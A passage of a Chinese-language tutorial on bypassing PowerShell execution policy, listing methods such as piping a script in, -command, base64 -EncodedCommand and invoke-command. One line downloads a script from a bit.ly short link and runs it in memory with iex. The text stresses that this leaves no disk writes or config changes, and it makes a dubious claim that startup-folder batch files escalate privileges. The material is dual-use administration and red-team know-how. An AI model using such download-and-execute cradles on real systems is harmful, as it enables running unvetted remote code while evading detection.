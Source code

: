 TYPE .runme.ps1 | PowerShell.exe -noprofile -
```


这种技术，不会导致配置变化或写磁盘操作。还可以从网络共享位置读取文件，而不写磁盘。
### 从url下载脚本并使用invoke表达式执行

这个技术从网上下载脚本并执行，也不写磁盘，不导致配置改变。很有用的技术。

```
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
```

iex开启了一个invoke表达式，


### 使用命令切换

这个技术很类似于拷贝粘贴执行一个脚本，但是它可以在没有交互下完成。简单命令可以顺利使用，复杂脚本可能会报错。

```
Powershell -command "Write-Host 'My voice is my passport, verify me.'"

Powershell -c "Write-Host 'My voice is my passport, verify me.'"
```

值得注意的是，你可以将他们放在批处理文件中，置于all users 的 startup 文件夹下，这样可以达到权限提升作用。

### 使用编码swith `-Enc` 或 `-EncodedCommand`

所有脚本可以通过unicode/base64编码后执行，这样可以避免不小心粘贴错误。这个技术也不会影响配置或写磁盘。

下面的例子使用了Posh-SecMod工具，它可以压缩编码命令大小。

```
$command = "Write-Host 'My voice is my passport, verify me.'" ; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) ; $encodedCommand = [Convert]::ToBase64String($bytes) ; powershell.exe -EncodedCommand $encodedCommand;
```

上面的 $encodedCommand 为：`VwByAGkAdABlAC0ASABvAHMAdAAgACcATQB5ACAAdgBvAGkAYwBlACAAaQBzACAAbQB5ACAAcABhAHMAcwBwAG8AcgB0ACwAIAB2AGUAcgBpAGYAeQAgAG0AZQAuACcA`

例2，使用编码字符串短命令

```
powershell.exe -Enc VwByAGkAdABlAC0ASABvAHMAdAAgACcATQB5ACAAdgBvAGkAYwBlACAAaQBzACAAbQB5ACAAcABhAHMAcwBwAG8AcgB0ACwAIAB2AGUAcgBpAGYAeQAgAG0AZQAuACcA
```

### 使用 invoke-command 命令

这是一种有趣的方式。它典型的执行是通过一个交互的ps console或使用command swith的一行命令，但非常酷的是它可用于执行于远程系统执行命令。这个技术也不会变更配置和写磁盘。

```
invoke-command -scriptblock {Write-Host "My voice is my passport, verify me."}
